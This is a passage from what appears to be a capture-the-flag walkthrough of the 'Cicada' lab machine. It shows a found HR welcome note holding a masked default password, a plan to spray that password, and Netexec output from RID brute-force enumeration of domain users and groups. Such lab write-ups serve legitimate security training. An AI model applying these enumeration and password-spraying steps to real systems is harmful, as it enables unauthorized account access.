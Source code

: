     ```
    Dear new hire!

    Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

    Your default password is: ****************

    To change your password:

    1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
    2. Once logged in, navigate to your account settings or profile settings section.
    3. Look for the option to change your password. This will be labeled as "Change Password".
    4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
    5. After changing your password, make sure to save your changes.

    Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

    If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

    Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

    Best regards,
    Cicada Corp
    ```

- Now that we have a default password, we need to gather some usernames to try and brute force. The next step is to scan the SMB service again with our Netexec cli tool, but this time we'll enumerate users by bruteforcing RID. This will produce a list of domain users.

    - As an optional step, I recommend storing the bruteforce rid usernames into a usernames.txt file to make our password spray attack a little easier for us, as many password-cracking tools allow for username files to enumerate through. In our case, our usernames.txt should contain 5 usernames to try (last few entries in code block below).

    #### NXC Result

    ```
    SMB                      10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
    SMB                      10.10.11.35     445    CICADA-DC        [+] cicada.htb\asdf: 
    SMB                      10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
    SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
    SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
    SMB                      10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
    SMB                      10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)